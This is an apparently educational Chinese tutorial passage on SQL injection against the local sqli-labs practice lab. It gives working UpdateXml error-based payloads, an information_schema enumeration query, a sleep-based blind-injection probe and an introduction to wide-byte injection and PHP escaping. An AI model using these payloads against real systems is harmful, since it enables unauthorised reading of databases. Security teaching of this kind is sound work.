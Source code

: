 
# UpdateXml报错注入 

第一个参数：XML_document 是 String 格式，为 XML 文档对象的名称，文中为 Doc 1
第二个参数：XPath_string (Xpath 格式的字符串) ，如果不了解 Xpath 语法，可以在网上查找教程。
第三个参数：new_value，String 格式，替换查找到的符合条件的数据

## 作用：改变文档中符合条件的节点的值

// 可以将 user() 改成任何我们想要查询的函数和sql语句 ,0x7e表示的是 ~
http://127.0.0.1/sqli/Less-1/?id=-1'  and updatexml(1,concat(0x7e,user(),0x7e),1)#
// 通过这条语句可以得到所有的数据库名，更多的关于informaion_schema的使用看文章头部
http://127.0.0.1/sqli/Less-1/?id=-1'  and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e),1)#

# sleep延时注入

## 利用前提

页面上没有显示位，也没有输出 SQL 语句执行错误信息。正确的 SQL 语句和错误的 SQL 语句返回页面都一样，但是加入 sleep(5)条件之后，页面的返回速度明显慢了
5 秒。

## 优点

不需要显示位，不需要出错信息。

## 缺点

速度慢，耗费大量时间

sleep函数判断页面响应时间               if(判断条件，为true时执行，为false时执行)

我们可以构造下面的语句，判断条件是否成立。然后不断变换函数直到获取到我们想要的信息

// 判断数据库的第一个字符的ascii值是否大于100，如果大于100，页面立即响应，如果不大于，页面延时5秒响应

http://127.0.0.1/sqli/Less-1/?id=1' and if(ascii(substring(database(),1,1))<100,1,sleep(5)) 

# 宽字节注入

宽字节注入是由于不同编码中中英文所占字符的不同所导致的。通常来说，在GBK编码当中，一个汉字占用2个字节。而在UTF-8编码中，一个汉字占用3个字节。在php中，
我们可以通过输入 echo strlen("中") 来测试，当为GBK编码时，输入2，而为UTF-8编码时，输出3。除了GBK以外，所有的ANSI编码都是中文都是占用两个字节。
--------------------- 

在说之前，我们先说一下php中对于sql注入的过滤，这里就不得不提到几个函数了。

addslashes()函数，这个函数在预定义字符之前添加反斜杠 \ 。预定义字符：  单引号 ' 、双引号 " 、反斜杠 \ 、NULL。但是这个函数有一个特点就是虽然会添加
反斜杠 \ 进行转义，但是 \ 并不会插入到数据库中。。这个函数的功能和魔术引号完全相同，所以当打开了魔术引号时，不应使用这个函数。可以使用
get_magic_quotes_gpc() 来检测是否已经转义。

mysql_real_escape_string() 函数，这个函数用来转义sql语句中的特殊符号x00 、\n  、\r  、\  、‘  、“ 、x1a。
